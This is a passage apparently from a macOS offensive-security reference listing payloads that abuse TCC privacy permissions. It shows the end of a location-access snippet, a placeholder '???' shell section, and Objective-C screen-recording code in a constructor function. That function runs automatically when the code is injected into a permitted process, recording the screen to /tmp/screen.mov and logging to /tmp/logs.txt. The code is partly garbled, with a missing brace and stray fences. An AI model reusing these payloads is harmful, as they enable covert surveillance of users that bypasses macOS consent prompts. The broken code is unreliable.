 ```
    while (true) {
        [runLoop runUntilDate:[NSDate dateWithTimeIntervalSinceNow:1.0]];
    }

    NSLog(@"Location completed successfully.");
    freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt
}
```
```

**Shell**
Get access to the location

```
???
```
```


### Screen Recording

- **Entitlement**: None
- **TCC**: `kTCCServiceScreenCapture`

**ObjectiveC**
Record the main screen for 5s in `/tmp/screen.mov`

```objectivec
#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

// clang -framework Foundation -framework AVFoundation -framework CoreVideo -framework CoreMedia -framework CoreGraphics -o ScreenCapture ScreenCapture.m

@interface MyRecordingDelegate : NSObject <AVCaptureFileOutputRecordingDelegate>
@end

@implementation MyRecordingDelegate

- (void)captureOutput:(AVCaptureFileOutput *)output
    didFinishRecordingToOutputFileAtURL:(NSURL *)outputFileURL
    fromConnections:(NSArray *)connections
    error:(NSError *)error {
    if (error) {
        NSLog(@"Recording error: %@", error);
    } else {
        NSLog(@"Recording finished successfully.");
    }
    exit(0);
}

@end

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
    freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt
    AVCaptureSession *captureSession = [[AVCaptureSession alloc] init];
    AVCaptureScreenInput *screenInput = [[AVCaptureScreenInput alloc] initWithDisplayID:CGMainDisplayID()];
    if ([captureSession canAddInput:screenInput]) {
        [captureSession addInput:screenInput];
    }

    AVCaptureMovieFileOutput *fileOutput = [[AVCaptureMovieFileOutput alloc] init];
    if ([captureSession canAddOutput:fileOutput]) {
```